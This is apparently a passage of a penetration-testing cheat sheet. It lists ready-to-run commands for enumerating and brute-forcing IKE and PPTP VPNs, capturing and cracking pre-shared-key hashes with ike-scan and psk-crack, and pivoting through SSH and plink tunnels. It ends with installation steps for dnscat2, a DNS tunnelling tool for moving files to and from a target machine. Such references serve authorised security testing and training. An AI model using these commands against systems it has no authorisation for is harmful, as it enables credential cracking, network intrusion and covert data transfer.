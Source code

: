     -   Use IKEForce to enumerate or dictionary attack VPN servers:  
        pip install pyip  
        git clone <https://github.com/SpiderLabs/ikeforce.git>  
        Perform IKE VPN enumeration with IKEForce:  
        ./ikeforce.py TARGET-IP –e –w wordlists/groupnames.dic  
        Bruteforce IKE VPN using IKEForce:  
        ./ikeforce.py TARGET-IP -b -i groupid -u dan -k psk123 -w
        passwords.txt -s 1  
        Use ike-scan to capture the PSK hash:  
        ike-scan  
        ike-scan TARGET-IP  
        ike-scan -A TARGET-IP  
        ike-scan -A TARGET-IP --id=myid -P TARGET-IP-key  
        ike-scan –M –A –n example\_group -P hash-file.txt TARGET-IP  
        Use psk-crack to crack the PSK hash  
        psk-crack hash-file.txt  
        pskcrack  
        psk-crack -b 5 TARGET-IPkey  
        psk-crack -b 5
        --charset="01233456789ABCDEFGHIJKLMNOPQRSTUVWXYZabcdefghijklmnopqrstuvwxyz"
        192-168-207-134key  
        psk-crack -d /path/to/dictionary-file TARGET-IP-key

-   PPTP Hacking

    -   Identifying PPTP, it listens on TCP: 1723  
        NMAP PPTP Fingerprint:  
        nmap –Pn -sV -p 1723 TARGET(S)  
        PPTP Dictionary Attack  
        thc-pptp-bruter -u hansolo -W -w /usr/share/wordlists/nmap.lst

-   Port Forwarding/Redirection

-   PuTTY Link tunnel - SSH Tunneling

    -   Forward remote port to local address:  
        plink.exe -P 22 -l root -pw "1337" -R 445:$ip:445 $ip

-   SSH Pivoting

    -   SSH pivoting from one network to another:  
        ssh -D $ip:1010 -p 22 user@$ip

-   DNS Tunneling

    -   dnscat2 supports “download” and “upload” commands for getting
        files (data and programs) to and from the target machine.

    -   Attacking Machine Installation:  
        apt-get update  
        apt-get -y install ruby-dev git make g++  
        gem install bundler  
        git clone https://github.com/iagox86/dnscat2.git  
        cd dnscat2/server  
        bundle install

